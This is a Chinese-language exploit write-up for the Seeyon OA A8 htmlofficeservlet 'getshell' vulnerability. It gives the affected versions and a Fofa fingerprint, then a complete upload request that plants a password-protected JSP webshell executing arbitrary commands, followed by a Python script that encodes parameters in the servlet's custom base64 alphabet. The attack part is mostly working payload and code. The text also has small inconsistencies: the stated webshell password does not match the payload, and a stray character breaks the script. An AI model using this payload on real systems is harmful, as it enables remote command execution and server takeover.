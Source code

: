 # 致远 OA A8 htmlofficeservlet getshell 漏洞

## 一、漏洞简介

访问**https://baidu.com/seeyon/htmlofficeservlet**如果出现下图所示的内容，表示存在漏洞。

![1.png](images/2020_06_25/19f51e83094c4ce79a3da658a24f961b.png)

## 二、漏洞影响

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件 V7.1

## 三、复现过程

### 指纹

```bash
https://baidu.com/seeyon/htmlofficeservlet/seeyon/index.jsp
seeyon
Fofa：app="用友-致远OA"

```

![0d4b978ed1474946.png](images/2020_06_25/fb03c6d03e504d5fb403da46f5dacbdf.png)

```bash
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce

```

webshell地址为**https://baidu.com/seeyon/test123456.jsp**，密码为：asasd3344。

### poc

```python
from sys import argv

letters = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"

def base64_encode(input_str):
    str_ascii_list = ['{:0>8}'.format(str(bin(ord(i))).replace('0b', ''))
                      for i in input_str]
    output_str = ''
    equal_num = 0
    while str_ascii_list:
        temp_list = str_ascii_list[:3]
        if len(temp_list) != 3:
            while len(temp_list) < 3:
                equal_num += 1
                temp_list += ['0' * 8]
        temp_str = ''.join(temp_list)
        temp_str_list = [temp_str[x:x + 6] for x in [0, 6, 12, 18]]
        temp_str_list = [int(x, 2) for x in temp_str_list]
        if equal_num:
            temp_str_list = temp_str_list[0:4 - equal_num]
        output_str += ''.join([letters[x] for x in temp_str_list])
        str_ascii_list = str_ascii_list[3:]
    output_str = output_str + '=' * equal_num
    return output_str

def base64_decode(input_str):
    str_ascii_list = ['{:0>6}'.format(str(bin(letters.index(i))).replace('0b', ''))
                      for i in input_str if i != '=']
    output_str = ''
    equal_num = input_str.count('=')
    while str_ascii_list:
        temp_list = str_ascii_list[:4]
        temp_str = ''.join(temp_list)
        if len(temp_str) % 8 != 0:
            temp_str = temp_str[0:-1 * equal_num * 2]
        temp_str_list = [temp_str[x:x + 8] for x in [0, 8, 16]]
        temp_str_list = [int(x, 2) for x in temp_str_list if x]
        output_str += ''.join([chr(x) for x in temp_str_list])
        str_ascii_list = str_ascii_list[4:]
    return output_str

if __name__ == "__main__":
    if len(argv) == 2:
        print(base64_decode(argv[1]))
    elif len(argv) == 3:
        if argv[1] == '-d':
            print(base64_decode(argv[2]))
        else:
            print(base64_encode(argv[2]))
    else:
        print("Seeyon OA /seeyon/htmlofficeservlet param encode/decode")
        print("Usage:")
        print("python %s encoded_str" % argv[0])t
        print("python %s -d encoded_str" % argv[0])
        print("python %s -e raw_str" % argv[0])

```

## 参考链接

> https://github.com/nian-hua/CVEScript/blob/master/致远OA/zhiyuan.py

> http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/


